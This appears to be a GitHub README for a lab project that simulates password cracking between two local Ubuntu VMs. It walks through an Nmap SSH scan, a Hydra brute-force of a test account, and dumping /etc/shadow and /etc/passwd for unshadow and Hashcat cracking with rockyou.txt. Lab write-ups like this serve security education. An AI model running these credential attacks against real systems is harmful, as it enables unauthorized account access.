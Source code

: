 # Password Cracker 

This project aims to use the tools Hydra and Hashcat to simulate a password cracking attack 

## HYDRA ON SSH

### STEP 1: SETUP UP 2 UBUNTU VMs

#### SERVER 1 (Attacker)

Install Hydra: `sudo apt update` `sudo apt install hydra -y`

Install Nmap: `sudo apt install nmap -y`

#### SERVER 2 (Target)

Install SSH: `sudo apt update` `sudo apt install openssh-server -y`

### STEP 2: CREATE TEST USER WITH WEAK PASSWORD (In Target)

Command used: `sudo  adduser adminuser`
** Password was set to: password123 **

### STEP 3: START SSH SERVER

Command used: `sudo systemctl start ssh` 

### STEP 4: FIND TARGET VM'S IP ADDRESS (In Attacker)

Find subnet of VM: `ip a`

The  subnet was 192.168.56.101/24

![using command to check ip](images/ip_a.png)

Scan subnet with Nmap: `nmap -sn 192.168.56.101/24  `

Scan IPs for open ports: `nmap -p 22 --open `

![scanning ip](images/scanning.png)
 
### STEP 5: CREATE A WORDLIST FILE

Command used: `touch password.txt`

The file contained a list of possible passwords

![password list](images/passwords.png)

### STEP 6: LAUNCH HYDRA ATTACK

Command used: `hydra -l adminuser -P password.txt ssh://`

![successful use of hydra](images/hydra.png)

## USING HASHCAT

### STEP 1: DOWNLOADING TOOLS

Download Hashcat: `sudo apt install hashcat`

Download John the Ripper: `sudo apt install john`

Download wordlist from github: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`

### STEP 2: CREATE A FAKE USER

Command used: `sudo adduser admin456`

Password was set to `christopher` which is in the rockyou.txt file

### STEP 3: EXTRACT HASH FILES

Extract user account information

Command used: `sudo cat /etc/passwd > useracct.txt`

![User deatails](images/user.png)

Extract real password hashes 

Command used: `sudo cat /etc/shadow > hashes.txt`

![Getting the hash](images/hash.png)

Use unshadow to combine both into a usable format of username:hash

Command used: `unshadow useracct.txt hashes.txt > final.txt`

![Unshadow](images/final.png)

### STEP 4: RUN HASHCAT

Command used `hashcat -m 1800 -a 0 -o password.txt final.txt rockyou.txt`

### STEP 5: OPEN PASSWORD FILE

Command used: `nano password.txt`

Password Christopher identified succesful use of hashcat
 
![Successful use of hashcat](images/thepass.png)

**NOTE:** hashcat cannot crack Yescrypt hashes which are used by most updated ubuntu systems so I had to change my system configurations temporarily and change the crypt method for the same password
Command used: `echo "admin456:christopher" | sudo chpasswd --crypt-method=SHA512`

  
